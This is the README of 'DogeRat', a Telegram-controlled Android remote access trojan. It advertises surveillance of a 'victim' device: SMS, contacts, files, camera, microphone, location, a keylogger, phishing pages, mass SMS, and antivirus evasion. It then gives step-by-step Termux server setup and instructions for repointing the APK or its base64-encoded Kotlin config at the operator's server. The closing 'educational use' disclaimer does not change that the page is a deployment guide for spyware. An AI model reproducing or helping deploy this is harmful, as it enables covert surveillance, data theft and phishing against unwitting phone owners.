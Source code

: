 
<p align="center">
  <i>A multifunctional Telegram based Android RAT without port forwarding</i>
</p>


<p align="center">
  <img src="\assets\images\apple-touch-icon.png" alt="Logo" />
</p>

## Features
- 🔴 Real time
- 🌐 custom web view
- 🔔 notification reader
- 🔔 notification sender (send custom notification that apper on target device with custom click link)
- 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
- 📡 receive information about simcard provider
- 📳 vibrate target device
- 🛰️ receive device location
- ✉️ receive all target message
- ✉️ send sms with target device to any number
- ✉️ send sms with target device to all of his/her contacts
- 👤 recive all target contacts
- 💻 receive list of all installedd apps in target device
- 📁 receive any file or folder from target device
- 📁 delete any file or folder from target device
- 📷 capture main and front camera
- 🎙 capture microphone (with custom duration)
- 📋 receive last clipboard text
- ✅️ auto start after device boot
- 🔐 Keylogger {Availbe in apk v1 and v2}
- ✨ Beautiful telegram bot interface
- -🤖 Undetectable by antivirus
  ## DOGE RAT PAID VERSION FEATURES
  🔐 Open any phising page in victim device
- 🖥️ Screenshot (get screenshot from your victim device)
- 📒 Gallery puller (Get all photos available in gallery)
- 🔔 notification reader
- 🔔 notification sender (send custom notification that apper on target device with custom click link)
- 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
-  🔤 Advance Keylogger
-  📁 PowerFull file manager {delete and Download Files}
- ✨ Beautiful telegram bot interface
- 🤖 Undetectable by antivirus
<br>
<h2>Requirements</h2>
<ul>
  <li><span style="color: #0074D9;">APK EDITOR</span></li>
  <li><span style="color: #2ECC40;">TERMUX</span></li>
  <li>For hosting server code, you can use some free services like:</li>
  <ul>
    <li><a href="https://replit.com/" style="color: #FF4136;">replit.com</a></li>
    <li><a href="https://glitch.com/" style="color: #FFDC00;">glitch.com</a></li>
    <li><a href="https://heroku.com/" style="color: #B10DC9;">heroku.com</a></li>
  </ul>
  <p align="center">
  <a href="https://sltechnicaltips.github.io/DogeRat/">
    <img src="https://img.shields.io/badge/📹%20VIDEO%20TUTORIALS%20AVAILABLE%20HERE-blue?style=for-the-badge" alt="Video Tutorials Available Here" />
  </a>
</p>
  <li>Keep in mind that these sites can suspend your projects, so it's better to host on your own computer.</li>
  
</ul>

<h2 align="center">Download</h2>

<p align="center">
  <a href="https://cybershieldx.com/termux.apk">
    <img src="https://img.shields.io/badge/Termux%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download Termux" />
  </a>
  <a href="https://cybershieldx.com/editor.apk">
    <img src="https://img.shields.io/badge/APK%20Editor%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download APK Editor" />
  </a>
</p>


## How to host server in Termux 
<p>Run the following commands in Termux:</p>



```bash  
  pkg update && upgrade -y
  pkg install git -y
  git clone https://github.com/SLTechnicalTips/DogeRat 
  cd DogeRat
  bash start.sh
Enter your bot token 
Enter your chatid 
And hit enter
Now open a new Tab, and give these commands
pkg install openssh
bash port.sh 
Enter your telegram username And hit enter 
Copy url and minimize the termux
```

## Edit apk
 - Open Apk editor 
 - select apk
 - choose full edit
 - select decode all files
 - go to assets folder
 - open host.json
 - and enter url
 - in socket replace url https to wss 
 - build apk ,start the bott  Enjoy

## example
```bash  
  { 
  "host": "https://yoururl.com/", 
  "socket": "wss://yoururl.com/", 
  "webView": "https://google.com/" 
}
```

## How to Build in Android Studio

To build the application in Android Studio, follow these steps:

1. Open the Android Studio and import the application source code.
2. Navigate to the following path in the source code: `Utils/AppTools.kt`.
3. In the `AppTools.kt` file, locate the `data` variable and copy your server information into it.
4. However, before copying the server information directly into the variable, you must encode it using Base64.
5. Here is an example JSON structure for your server information:
```
{
"host" : "",
"socket" : "",
"webView" : "https://www.google.com"
}
```

6. Fill in the above JSON structure with your server information.
7. Go to https://www.base64encode.org/ and copy the encoded result of your JSON data.
8. In Android Studio, paste the encoded result into the `data` variable.
9. The final code should look like this:

```kotlin
fun getAppData(): AppData {
    val data = "<your encoded server info>"
    val text = decode(data)
    return json().fromJson(text, AppData::class.java)
}
```




<p align="center">
  <img src="https://img.shields.io/badge/Disclaimer-Important-red" alt="Important Disclaimer"/>
</p>

<p align="center">
  <b><i>Note:</i></b> The developer provides no warranty with this software and will not be responsible for any direct or indirect damage caused by the usage of this tool. Dogerat is built for educational and internal use only.
</p>

<p align="center">
  <b><i>Attention:</i></b> We do not endorse any illegal or unethical use of this tool. The user assumes all responsibility for the use of this software.
</p>

<p align="center">
  <b><i>Thank you for using Dogerat - we hope it serves its intended purpose and helps you achieve your goals!</i></b>
</p>


